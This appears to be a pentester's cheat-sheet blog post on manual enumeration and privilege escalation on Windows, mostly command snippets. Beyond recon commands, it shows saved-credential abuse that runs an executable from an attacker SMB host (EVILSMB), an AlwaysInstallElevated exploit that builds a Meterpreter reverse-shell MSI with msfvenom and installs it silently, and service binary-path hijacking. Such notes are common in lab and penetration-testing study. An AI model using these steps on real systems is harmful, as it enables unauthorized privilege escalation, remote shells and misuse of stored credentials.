 ```yaml
---
layout: post
title: Windows Manual Enumeration
description: Windows Manual Enumeration
date: 2022-04-09
---
```


### System Info
```
systeminfo 
```
### Extract patches and updates
```
wmic qfe
wmic qfe get Caption, Description, HotFixID, InstalledOn
```
### List all drives
```
wmic logicaldisk get caption,description,providername
```

### User Info
```
whoami /priv
```
### Find user accounts
```
net user [USER]
```
### Find users in group
```
net localgroup administrators
```

### Network Info
```
ipconfig /all
arp -a
netstat -ano
```

### Running services
```
services (by itself)
sc queryex type= service
Get-Service <foo> (Powershell)
Start-Service <foo> (Powershell)
```

### list credentials inside Credential Manager 
```
C:\Windows\System32\spool\drivers\color>cmdkey /list

Currently stored credentials:

    Target: Domain:interactive=ACCESS\Administrator
                                                       Type: Domain Password
    User: ACCESS\Administrator
    
C:\Windows\System32\spool\drivers\color>runas /savecred /user:ACCESS\Administrator "\\10.10.14.33\EVILSMB\kittens.exe"
```

### AlwaysInstallElevated
Detection

1.Open command prompt and type: reg query HKLM\Software\Policies\Microsoft\Windows\Installer
2.From the output, notice that “AlwaysInstallElevated” value is 1.
3.In command prompt type: reg query HKCU\Software\Policies\Microsoft\Windows\Installer
4.From the output, notice that “AlwaysInstallElevated” value is 1.

Exploitation

Kali VM

1. Open command prompt and type: msfconsole
2. In Metasploit (msf > prompt) type: use multi/handler
3. In Metasploit (msf > prompt) type: set payload windows/meterpreter/reverse_tcp
4. In Metasploit (msf > prompt) type: set lhost [Kali VM IP Address]
5. In Metasploit (msf > prompt) type: run
6. Open an additional command prompt and type: msfvenom -p windows/meterpreter/reverse_tcp lhost=[Kali VM IP Address] -f msi -o setup.msi
7. Copy the generated file, setup.msi, to the Windows VM.

Windows VM

1.Place ‘setup.msi’ in ‘C:\Temp’.
2.Open command prompt and type: msiexec /quiet /qn /i C:\Temp\setup.msi

Enjoy your shell! :)

- Alternatively, once you have a meterpreter shell, you can use 'exploit/windows/local/always_install_elevated' for your session

### Weak service permissions
- https://medium.com/@asfiyashaikh10/windows-privesc-weak-service-permission-b90f3bf4d44f
- https://pentestlab.blog/2017/03/30/weak-service-permissions/

### Check Startup Items for weak file perms
```
1. Open command prompt and type:  
2. From the output notice that the “BUILTIN\Users” group has full access ‘(F)’ to the directory.
```

### Check for services we can control
```
accesschk.exe -uwcv Everyone *
```

### Modify binary path
```
sc config <service name> binPath= <binary path>
sc qc <service name>
```

